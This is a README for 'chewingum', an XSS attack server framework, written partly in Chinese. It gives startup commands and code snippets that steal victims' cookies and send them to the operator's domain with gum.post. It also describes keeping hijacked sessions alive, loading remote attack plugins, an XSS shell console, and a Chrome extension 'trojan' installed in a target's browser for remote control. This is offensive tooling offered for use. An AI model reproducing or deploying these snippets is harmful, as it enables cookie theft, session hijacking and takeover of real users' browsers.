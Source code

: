 # Chewingum [alpha][0.2][1140214]

Name
----
**chewingum - individual XSS server framework**

Startup
-------
    python ./config.py install [ domain salt filekeyPath | -h ]
    python ./chewingum.py [ -h | host port debug ]

Dependencies
------------
* [Bottle - 0.11](http://bottlepy.org/)
* [Bottle-websocket](https://github.com/zeekay/bottle-websocket)
* [GeventWebSocketServer](http://sdiehl.github.io/gevent-tutorial/)


  unnecessaries
  -------------
    * [Beaker](http://beaker.rtfd.org/)

Reference
---------
* (Gum.js) - [xss.js](http://zone.wooyun.org/content/2113)
           - [BeEF](http://beefproject.com/)

Helptext
--------

1. login
采用filekey验证, 上传filekey或输入URL便可登录.

2. server
server处代码会直接在项目触发时执行,
最终会将变量serverinfo和变量browserinfo保存至数据库,
格式需为json/dict格式

    {'name':'value'}

如:

    serverinfo = {
	    'referer':b64encode(str(request.headers.get('Referer'))),
    	'ctime':b64encode(str(ctime()))
	}
	browserinfo = {
    	'cookie':b64encode(str(request.forms.get('cookie')))
	}

3. server code keyword
iferror
对变量iferror赋值, 会触发对应错误.
如:
>	iferror = 404

returns
对变量returns赋值，在iferror为空的情况下, 会返回对其赋值的内容.
如:
>	returns = '<script>alert(1)</script>'

gum.backinfo
客户端的关键字，是一个字典，默认用来暂时记录返回的信息。
当返回之后最好清空它。
>   gum.backinfo = {};

4. project name and object name
project 的项目名需是xss触发处的url或是domain.
$default是默认项目, xss触发时若未发现对应项目则按照此配置进行.

+	object 的项目名可随意更改.

5. plugins
可以这样导入server扩展,

	with open('./plus/get_info.py') as files: exec files.read()

也可以这样

    from plus.email_remind import send_mail
    send_mail(gum_emailremind)

    具体看扩展的写法

可以这样导入browser插件,

	gum.script('http://' + gum.domain + '/static/plus/tool_boomerang.js')


这样给browser插件传参,

	gum_boomerang = {
		'object_url':'http://localhost/xss',
		'post':{'xss':'yes', 'csrf':'no'},
		'eval':function(){alert(1)}
	}

同样的方法给server扩展传参,

	gum_keepsession = {
		'url':referer,
		'session':cookie,
		'data':{'a':'b'},
		'frequency':300,
		'endate':'2013-12-12 15:17:00'
	}

6. set code
这样发送browser info,

    gum.post('http://' + gum.domain + '/ing', {'cookie':document.cookie})

单次接收browser info可以参考上面的2.server
也可以这样

    browserinfo['infoname'] = b64encode(str(request.forms.get('infoname')))

多次接收browser info可以像这样,

    info_cookie = str(request.forms.get('cookie'))
	sessionid[referer][1]['cookie'] = info_cookie
	browserinfo = b64encode(sessionid.get(referer))

+		不推荐使用多次接收，默认已关闭。

7. other
使用基本探针:

server:

    with open('./plus/get_info.py') as files: exec files.read()

browser:

    gum.script('http://' + gum.domain + '/static/plus/get_info.js', function(){
        gum.post('http://' + gum.domain + '/ing', gum.backinfo);
        gum.backinfo = {};
    })

8. console
尚在测试阶段。
javascript文件在

    ./static/plus/onexsshell.js

9. browser trojan
chrome
修改./trojan/chrome/gum.js中的{{domain}}为你的chewingum的域名及端口
使用chrome or chromium打包
安装在目标的浏览器后，使用console即可操作目标浏览器。

+   尚在测试阶段

